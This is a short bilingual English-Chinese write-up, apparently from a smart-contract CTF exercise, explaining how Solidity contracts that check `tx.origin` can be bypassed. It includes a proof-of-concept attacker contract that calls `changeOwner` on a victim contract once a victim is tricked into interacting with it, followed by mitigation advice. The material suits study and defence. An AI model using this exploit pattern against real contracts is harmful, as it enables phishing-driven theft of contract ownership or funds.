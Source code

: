 # Exploit Idea: Using `tx.origin` for permission checking can lead to phishing-style attacks

# 漏洞思路：使用 `tx.origin` 做权限校验可能导致钓鱼式攻击

---

## 🧠 Concept Summary / 概念总结

if a contract uses `tx.origin` for permission checking like this:
如果某个合约像这样使用 `tx.origin` 进行权限校验：

```javascript
    function transfer(address to, uint amount) public {
        require(tx.origin == owner, "Not owner");
        // 转账逻辑...
    }
```

This check can potentially be bypassed by calling the contract through an intermediary contract (“Contract A” calling “Contract B”).
可以通过“合约 A 调用合约 B”的方式绕过 tx.origin == owner 的判断。

---

## 🔬Proof of Concept / 概念证明

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TelephoneAttacker{
    function attack() external {
        address telephoneContractAddr = <victim-contract-address>;
        (bool success ,bytes memory data) = telephoneContractAddr.call(
            abi.encodeWithSignature("changeOwner(address)", <attacter-address>)
        );
    }
}
```

If you can trick the victim into interacting with this attack contract,
you can exploit tx.origin to bypass the permission check.
Because tx.origin will always be the original external user — in this case, the victim.
如果你诱导受害者与攻击合约产生交互，就能利用 tx.origin 绕过权限验证。
因为 tx.origin 永远指向交易最初发起的外部账户，也就是受害者。

---

## 📝Notes

1. Using msg.sender is much safer than using tx.origin.
   相较于 tx.origin，使用 msg.sender 更加安全。
2. Be cautious when designing admin-level or transfer functions.
   Flexibility often introduces more potential attack surfaces.
   在设计管理员操作或转账函数时需要格外小心，越灵活的设计往往意味着越大的攻击面。
